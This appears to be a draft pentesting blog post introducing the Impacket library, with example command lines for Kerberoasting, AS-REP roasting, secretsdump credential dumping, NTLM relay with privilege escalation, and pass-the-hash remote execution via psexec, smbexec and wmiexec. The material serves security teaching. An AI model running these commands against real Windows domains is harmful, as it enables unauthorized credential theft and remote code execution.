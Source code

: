 ```yaml
---
layout: post
published: false
title: Windows Exploitation 11.1
---
```

## Impacket in Action


## Introduction 

In this blog post we will learn about Impacket library, and its usage during pentesting, we will also discuss some of the useful tools of this library.
This post is for those who know's even basics about Active Directory and Windows Administration Services. If you're new, please do a google search if you feel uncomfortable.



**Impacket**

https://github.com/SecureAuthCorp/impacket.git

Clone the repo

```
git clone https://github.com/SecureAuthCorp/impacket.git
```

**Impacket** is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.





**What protocols are featured?**

* Ethernet, Linux "Cooked" capture.
* IP, TCP, UDP, ICMP, IGMP, ARP.
* IPv4 and IPv6 Support.
* NMB and SMB1, SMB2 and SMB3 (high-level implementations).
* MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS and HTTP.
* Plain, NTLM and Kerberos authentications, using password/hashes/tickets/keys.
* Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI.
* Portions of TDS (MSSQL) and LDAP protocol implementations.


```
pip install -r requirements.txt
```

```
python setup.py install
```

You can find any of the impacket tool in '/impacket/examples' file.

**Explanation**

**addcomputer.py:** Allows to add a computer to a domain using LDAP or SAMR (SMB).

```
addcomputer.py -method SAMR -computer-pass <PASSWORD> -computer-name <NAME> DOMAIN/USER:PASSWORD
```
We have added a new computer using SAMR(Security Account Manager (SAM) Remote Protocol (Client-to-Server)) to a domain.


**GetUserSPNs.py**: This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat.


If we found any user accounts configured with unconstrained delegation, we can obtain its Kerberos tickets and can try crack that ticket.

```
GetUserSPNs.py DOMAIN/USER:PASSWORD -request-user <UNCONSTRAINED_USER>
```

**GetNPUsers.py:** This example will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). Output is compatible with JtR.

```
GetNPUsers.py DOMAIN/USER -dc-ip 10.10.10.161 (TargetIP)
```

**secretdump.py**
Performs various techniques to dump secrets from the remote machine without executing any agent there.


```
secretsdump.py  DOMAIN/USER:PASSWORD@<VictimIP>
```
```
secretsdump Empire/locus:brokeme@198.162.0.1
```

**ntlmrelayx.py:** This script performs NTLM Relay Attacks, setting an SMB and HTTP Server and relaying credentials to many different protocols (SMB, HTTP, MSSQL, LDAP, IMAP, POP3, etc.). The script can be used with predefined attacks that can be triggered when a connection is relayed (e.g. create a user through LDAP) or can be executed in SOCKS mode. In this mode, for every connection relayed, it will be available to be used later on multiple times through a SOCKS proxy.


```
ntlmrelayx.py --escalate-user username -t ldap://DOMAIN_CONTROLLER
``


```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

**psexec.py**: it is used to perform remote code execution, it execute processes on remote systems and redirect console applications' output to the local system so that these applications appear to be running locally.


```
psexec.py -hashes <LM hash>  domain/user@<TargetIP> 
```
```
psexec.py -hashes :73ry4923rho24jr2jeor2po3j Empire/administrator@192.168.10.16 powershell.exe
```

**smbexec.py**: It focuses on using native windows functions/features for post exploitation and expanding access on a network after you gain some credentials, whether that be a hash or password for a local or domain account. Its similar like psexec.

```
smbexec.py Empire/administrator@192.168.10.16
```

You can also use hash.


**wmiexec.py:** A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

```
wmiexec.py 'Empire/administrator@192.168.10.16'
```






## Conclusion

_**We have discussed some tools with their basic usage that will help us in Exploitation and Post Exploitation phases, I recommend you to read resources i given below**_




Somre refference link :

``
https://www.secureauth.com/labs/open-source-tools/impacket
``

``
http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
``

``
https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
``
